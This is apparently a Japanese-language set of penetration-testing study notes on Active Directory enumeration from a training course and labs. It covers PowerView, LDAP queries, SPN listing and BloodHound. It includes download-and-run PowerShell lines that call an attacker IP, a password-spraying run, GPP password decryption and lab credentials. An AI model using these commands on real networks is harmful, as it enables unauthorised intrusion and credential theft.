








# ActiveDirectory

[toc]

### ユーザ情報収集

```cmd
net user
```

```cmd
net user /domain
```

侵害しようとしているユーザがどの権限を持つのかは必ずみたいところ

```cmd
net user jeff_admin /domain
```

```cmd
net group /domain
```

グループに所属するメンバーを確認

```cmd
net group "Sales Department" /domain
```

```cmd
whoami /priv
```

```cmd
whoami /groups
```

```cmd
net accounts
```

オブジェクトをグループに追加（Domain Admins権限が必要）

```cmd
net group "Domain Admins" /domain
```

### PowerView.ps1

```bash
python -m http.server 80 -d /usr/share/windows-resources/powersploit/Recon/

cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ./
```

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```

```powershell
# in-memory
powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
```

```powershell
# グループメンバー列挙
Get-NetGroup "Management Department" | select member
```

```powershell
#現在のユーザーがドメイン内のコンピュータで管理者権限を持つか
PS C:> Find-LocalAdminAccess
client74.corp.com
```

```powershell
#リモートホストのログイン状況確認
PS C:\Tools> Get-NetSession -ComputerName client74　-Verbose

CName        : \\192.168.50.75
UserName     : stephanie
Time         : 8
IdleTime     : 0
ComputerName : client74
```

※パーミッションエラーになることも多い

```powershell
#ドメイン内のホストのビルドバージョン
PS C:\Tools> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

dnshostname       operatingsystem              operatingsystemversion
-----------       ---------------              ----------------------
DC1.corp.com      Windows Server 2022 Standard 10.0 (20348)
web04.corp.com    Windows Server 2022 Standard 10.0 (20348)
FILES04.corp.com  Windows Server 2022 Standard 10.0 (20348)
client74.corp.com Windows 11 Pro               10.0 (22000)
client75.corp.com Windows 11 Pro               10.0 (22000)
CLIENT76.corp.com Windows 10 Pro               10.0 (16299) #古い
```

*  PsLoggedon.exeを用いたリモートホストログイン情報の確認

```powershell
#リモートホストのログイン情報取得
PS C:\Tools\PSTools> .\PsLoggedon.exe \\files04

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeff
Unable to query resource logons
```

https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon [↩︎](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/active-directory-introduction-and-enumeration/manual-enumeration-expanding-our-repertoire/getting-an-overview-permissions-and-logged-on-users#fnref7)

```powershell
#SPNの列挙
PS C:\Users\public> Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-NetUser -SPN | select samaccountname,serviceprincipalname

samaccountname serviceprincipalname
-------------- --------------------
krbtgt         kadmin/changepw     
sql_svc        MSSQL/MS02.oscp.exam
web_svc        HTTP/MS01.oscp.exam 

```

※SPNの役割を理解しておくのは重要。例えばcifsはSMB共有の権限

ACLの取得

```
#ADでのオブジェクトに対する権限の種類
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```powershell
Get-ObjectAcl -Identity stephanie

...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104 #ポイント
ActiveDirectoryRights  : ReadProperty #ポイント
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 16
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553　#ポイント
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
...
```

SIDをオブジェクト名に変換

```powershell
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
```

Generic allのみを列挙

```powershell
Get-ObjectAcl -Identity "celia.almeda" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

----
SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-2610934713-1581164095-2706428072-512            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-2610934713-1581164095-2706428072-519            GenericAll
```

ドメイン共有の確認

```powershell
# コマンドの実行に時間がかかる
PS C:\Tools> Find-DomainShare

Name           Type Remark              ComputerName  
----           ---- ------              ------------  
ADMIN$   2147483648 Remote Admin        DC01.oscp.exam
C$       2147483648 Default share       DC01.oscp.exam
IPC$     2147483651 Remote IPC          DC01.oscp.exam
NETLOGON          0 Logon server share  DC01.oscp.exam
SYSVOL            0 Logon server share  DC01.oscp.exam
Users             0                     DC01.oscp.exam
ADMIN$   2147483648 Remote Admin        MS02.oscp.exam
C$       2147483648 Default share       MS02.oscp.exam
IPC$     2147483651 Remote IPC          MS02.oscp.exam
ADMIN$   2147483648 Remote Admin        MS01.oscp.exam
C$       2147483648 Default share       MS01.oscp.exam
IPC$     2147483651 Remote IPC          MS01.oscp.exam
setup             0                     MS01.oscp.exam

```

```powershell
# sysvolボリュームの確認(domainユーザーは閲覧が可能).
# 機密情報があることも.

# フォーマット
# ls \\<ComputerName>\<Name>

PS C:\> ls \\dc01.oscp.exam\sysvol\oscp.exam\
ls \\dc01.oscp.exam\sysvol\oscp.exam\


    Directory: \\dc01.oscp.exam\sysvol\oscp.exam


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         3/25/2022   7:43 AM                Policies                                                             
d-----         3/25/2022   7:43 AM                scripts

#ドメイン+共有フォルダでも表示可能(sysvolは特殊かも)
ls \\dc01\\netlogon
```

sysvolディレクトリ配下にoldpolicyがあった場合、xmlファイルに記載されているパスワードクラックが可能

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```


### ユーザ一覧の取得

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
# ドメイン情報の表示
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
# LDAPプロバイダパスの作成
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

# ドメイン内のすべてのユーザ列挙
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368" #filterプロパティに0x30000000（10進数805306368）を指定
$Searcher.FindAll()
Path                                                                     
----                                                                     
LDAP://CN=Administrator,CN=Users,DC=xor,DC=com

# ユーザーのプロパティ情報含めて表示
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}
```

ps1ファイルにして実行することも可能

```powershell
#psスクリプトを誤って実行しないよう設計された実行ポリシーバイパス
PS C:\> powershell -ep bypass
PS C:\> .\enumeration.ps1
```


### SPN収集

```powershell
# SPNに絞ってユーザ一覧化
$Searcher.filter="serviceprincipalname=*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}
```


### Group収集

```powershell
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    $obj.Properties.name
}
```

### グループ内のメンバーのみ表示

```powershell
$Searcher.filter="(name=Domain Admins)"   
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    $obj.Properties.member
}
```

### ログオンユーザ情報を取得

```bash
cp /home/kali/Documents/tools/PowerSploit/Recon/PowerView.ps1 ./
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.45.211/PowerView.ps1','C:\Users\public\PowerView.ps1')"
```

```cmd
powershell
Import-Module .\PowerView.ps1
```

```powershell
# 端末のログイン情報
Get-NetLoggedon -ComputerName client251
```

* -ComputerNameオプション：対象のワークステーションまたはサーバーを指定

```powershell
# ドメインコントローラー上のアクティブなセッション
Get-NetSession -ComputerName dc01
```

```cmd
# インメモリーで実施
powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
```



※末尾に実行したコマンドを付ける


### SPNの調査

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

### SPNからIPアドレスの抽出まで(nslookup)

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*sql*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
        $SPN_initial = $prop.serviceprincipalname
        $SPN = $SPN_initial.split("/")[1].split(":")[0]
        Write-Host ""
        Write-Host "Sam Account Name : [+]" $prop.samaccountname n
        Write-Host "Service Principal Name : [+]" $SPN n
 
        If ($SPN -like "*.com") {
        nslookup $SPN
        }
    }
        Write-Host "--------------------------------------------------------"
}
    

```

※Get-SPNでも同様のことが実施できる

https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1


### Low and Slow Password Guessing

カウントロックポリシーを事前に確認しパスワード攻撃をユーザ全体に行う方法

#### ドメインのアカウントポリシーの確認

```cmd
net accounts

----
C:\Tools\active_directory>net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          Unlimited
Minimum password length:                              1
Length of password history maintained:                24
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

#### powershellを利用したログイン試行

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
```

* あっている場合

  ```powershell
  PS C:\Tools\active_directory> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin",
   "lab")
  distinguishedName : {DC=corp,DC=com}
  Path              : LDAP://DC01.corp.com/DC=corp,DC=com
  ```
  
* 間違っている場合

  ```powershell
  format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
  "
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
  ```

#### Spray-Passwords.ps1を利用する方法

https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

```
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'adam' = 'Qwerty09!'
Guessed password for user: 'iis_service' = 'Qwerty09!'
Guessed password for user: 'sql_service' = 'Qwerty09!'
Users guessed are:
 'adam' with password: 'Qwerty09!'
 'iis_service' with password: 'Qwerty09!'
 'sql_service' with password: 'Qwerty09!'
PS C:\Tools\active_directory>
```

* -File：ワードリストファイル
* -Adminフラグ：管理者アカウントのテスト

### runasコマンド

```
runas /user:＜ユーザー名＞ ＜コマンド＞
```


### BloodHound

#### sharphoundで情報収集

https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1

```bash
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1 -O SharpHound.ps1
```

```powershell
PS C:\Tools> Import-Module .\Sharphound.ps1
```

```powershell
Get-Help Invoke-BloodHound
#全てのオブジェクトを収集
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```

```bash
＃bloodhoundおよびneo4j（noSQLデータベース)のインストール
sudo apt update && sudo apt install -y bloodhound
```

ファイルの配送

[ここを参照してkaliに配送](../FileTransfers.md)

#### bloodhound.pyでリモートで情報収集

https://github.com/fox-it/BloodHound.py

```bash
[~/Documents/tools]
git clone https://github.com/fox-it/BloodHound.py.git 
python setup.py install
```

```bash
./bloodhound.py -u svc-alfresco -p s3rvice -d htb.local -ns 10.129.192.240
```

※ディレクトリ配下に.jsonファイルが複数できる




#### bloodhoundの実行

```bash
sudo neo4j start
bloodhound
```

upload Dataからzipファイルをアップロードする



uploadが完了したらupload progressを閉じる





* Analysisタブを適当にぽちぽちして目的のコンピューターやユーザを右クリックして`Mark user as Owned`に登録していく。

### リモートサーバーからの情報収集

LDAPを利用してグループの所属メンバーを確認

```bash
# "remote management Users"の列挙
ldapsearch -H ldap://10.129.192.240 -x -b DC=htb,DC=local | grep -A 11 -i "Remote Management Users"
```

| option                        | 説明                                                         |
| ----------------------------- | ------------------------------------------------------------ |
| -A 行数, --after-context=行数 | 検索文字列が見つかった行から後ろの行を指定した行数分表示します。 |
| -i, --ignore-case             | 大文字と小文字の区別をしません。                             |



net rpcを利用してグループに所属するメンバーをさらに絞り込む

```bash
# "Privileged IT Accounts"のnet rpc group membersを表示
net rpc group members 'Privileged IT Accounts' -W 'htb.local' -I '10.129.192.240' -U'svc-alfresco'%'s3rvice' 2>&1
```



```bash
net rpc group members 'Service Accounts' -W 'htb.local' -I '10.129.192.240' -U'svc-alfresco'%'s3rvice' 2>&1
```



